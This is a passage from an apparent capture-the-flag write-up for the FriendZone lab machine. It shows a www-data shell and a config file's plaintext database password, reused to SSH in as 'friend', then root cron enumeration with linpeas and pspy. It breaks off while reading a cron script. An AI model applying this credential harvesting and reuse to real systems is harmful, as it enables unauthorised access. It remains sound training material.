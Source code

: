 ```
 17:50:10 up  2:17,  1 user,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
friend   pts/0    10.10.14.10      15:34    2:14m  0.08s  0.08s -bash
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$
```

## User
Poking around on the site, we can find the following file under ```/var/www/mysql_data.conf```
```
for development process this is the mysql creds for user friend

db_user=friend

db_pass=Agpyu12!0.213$

db_name=FZ
```
if we try these credentials with SSH, we can login as user friend:
```
[root@kali FriendZone ]$ ssh -l friend $TARGET          
friend@10.10.10.123's password:
Welcome to Ubuntu 18.04.1 LTS (GNU/Linux 4.15.0-36-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

You have mail.
Last login: Tue Jan 18 15:34:06 2022 from 10.10.14.10
friend@FriendZone:~$
```

## Root
First thing, as always we run linpeas.sh to enumerate the system for a privilege escalation.  
Since we do not found anything using linpeas.sh let's use pspy to snoop process and see if there is any cron running as root that is somehow exploitable.  
After a while we can see that this cron gets executed
```
2022/01/18 12:58:01 CMD: UID=0    PID=38713  | /usr/sbin/CRON -f
2022/01/18 13:00:01 CMD: UID=0    PID=38720  | /usr/bin/python /opt/server_admin/reporter.py
```
If we inspect the file, we can see that the script is owned by root and is not writable by the user friend.  
```
friend@FriendZone:/opt/server_admin$ ls -la
total 12
drwxr-xr-x 2 root root 4096 Jan 24  2019 .
drwxr-xr-x 3 root root 4096 Oct  6  2018 ..
-rwxr--r-- 1 root root  424 Jan 16  2019 reporter.py
```
If we read the script, we can see the following content, actually nothing gets executed, so at a first glance seems that we cannot hijack the execution of this script.  
```
#!/usr/bin/python

import os

to_address = "admin1@friendzone.com"
```